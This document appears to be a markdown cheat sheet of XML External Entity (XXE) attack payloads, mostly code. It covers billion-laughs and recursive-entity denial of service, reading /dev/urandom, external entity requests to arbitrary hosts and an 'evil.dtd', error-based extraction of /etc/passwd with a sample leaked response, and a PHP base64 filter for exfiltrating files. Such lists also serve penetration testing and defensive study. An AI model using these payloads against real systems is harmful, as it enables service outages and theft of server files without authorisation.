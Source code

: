 # Payloads:


#### Simple Example

```
<?xml version="1.0"?>
<!DOCTYPE example SYSTEM "example.dtd" [
  <!ENTITY xml "Extensible Markup Language">
]>
<example> &xml; </example>
```

#### DOS

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa...">
]>
<boom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...</boom>

<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol1 "&lol2;">
  <!ENTITY lol2 "&lol1;">
]>
<lolz>&lol1;</lolz>

<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "file:///dev/urandom">  <!-- or /dev/random -->
]>
<root>&external;</root>
```

#### General Entity External Request Test

```
<?xml version="1.0" ?>
<!DOCTYPE r [
  <!ELEMENT root ANY >
  <!ENTITY external SYSTEM "http://x.x.x.x:443/test.txt">
]>
<root>&external;</root>
```

#### Parameter Entity External Request Test

```
# Ref: https://github.com/lsh123/xmlsec/issues/43
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % external SYSTEM "http://192.168.3.1/evil.dtd"> %external;
]>
```

### Extraction via Error Response

In the case where the web server displays an error, try to dump contents using the error response:

```
# Ref: https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 '<!ENTITY % external SYSTEM "file:///nothere/%payload;">'> %param1; %external;

# Example response
<?xml version="1.0" encoding="UTF-8"?><root>
<errors>
<errorMessage>java.io.FileNotFoundException: file:///nothere/root:x:0:0:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
```

### PHP Exfil via base64

```
# Ref: http://www.informit.com/articles/article.aspx?p=24992&seqNum=5
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
```

# Caveats / Gotchas

* Sometimes servers are behind firewalls, so send requests on port 80 by default [1]
* Linefeeds & special characters get in the way, request:
  * `/etc/hostname` [1]
* Load balancers can send different responses [1]

# Useful Links:

* Definitions:
  * [DTD Overview](http://www.informit.com/articles/article.aspx?p=24992&seqNum=5)
  * [General Entity & Parameter Entity Declarations](http://xmlwriter.net/xml_guide/entity_declaration.shtml)
  * [Attack Overview](https://www.owasp.org/images/5/58/XML_Based_Attacks_-_OWASP.pdf)
  * [Compendium of Known Techniques](https://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf) - details of platform impelementations
  * [Basic how to white paper](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-wp.pdf)

* Payloads:
  * [20+ DTD Cheat Sheet payloads](https://web-in-security.blogspot.ca/2016/03/xxe-cheat-sheet.html)
  * [~10 XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

# Future Research:

* SSRF - Server Side Request Forgery
* XML Schema Poisoning
* Schema SSRF
* XPath Injection
* NDATA - how does this work?
* Modify Content-Type header: `Content-Type: application/xml`
* Notation -> http://www.informit.com/articles/article.aspx?p=24992&seqNum=5

# References

* [1](https://web-in-security.blogspot.ca/2014/11/detecting-and-exploiting-xxe-in-saml.html)
